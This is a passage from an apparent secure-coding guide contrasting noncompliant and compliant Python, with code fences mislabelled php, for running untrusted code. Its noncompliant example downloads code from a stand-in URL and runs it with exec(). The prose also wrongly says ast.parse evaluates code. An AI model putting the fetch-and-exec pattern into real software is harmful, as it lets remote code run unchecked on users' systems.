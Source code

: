 
The compliant code takes a more cautious approach when including functionality from an untrusted control. Instead of directly executing the code, it uses the ast.parse() function from the ast module to parse and evaluate the code as an abstract syntax tree (AST). This allows for a safer analysis of the code without executing it directly.

By parsing the untrusted code as an AST, the compliant code gains the ability to inspect and validate the code's structure and contents before deciding whether to execute it. This mitigates the risk of running arbitrary or malicious code, providing an additional layer of security.





## Download of Code Without Integrity Check

<span class="d-inline-block p-2 mr-1 v-align-middle bg-red-000"></span>Noncompliant code:


```php
import requests

# Download code without integrity check
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Execute the downloaded code
exec(code)
```

The noncompliant code directly downloads code from a remote source using the requests library without performing any integrity check. It then proceeds to execute the downloaded code using the exec() function. This approach can be dangerous as it allows the execution of potentially malicious or unauthorized code without verifying its integrity.





<span class="d-inline-block p-2 mr-1 v-align-middle bg-green-000"></span>Compliant code:


```php
import requests
import hashlib

# Download code with integrity check
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Verify code integrity
expected_hash = '4a2d8f37ac...'
calculated_hash = hashlib.sha256(code.encode()).hexdigest()
if calculated_hash == expected_hash:
    exec(code)
else:
    print("Integrity check failed. Code execution aborted.")
```
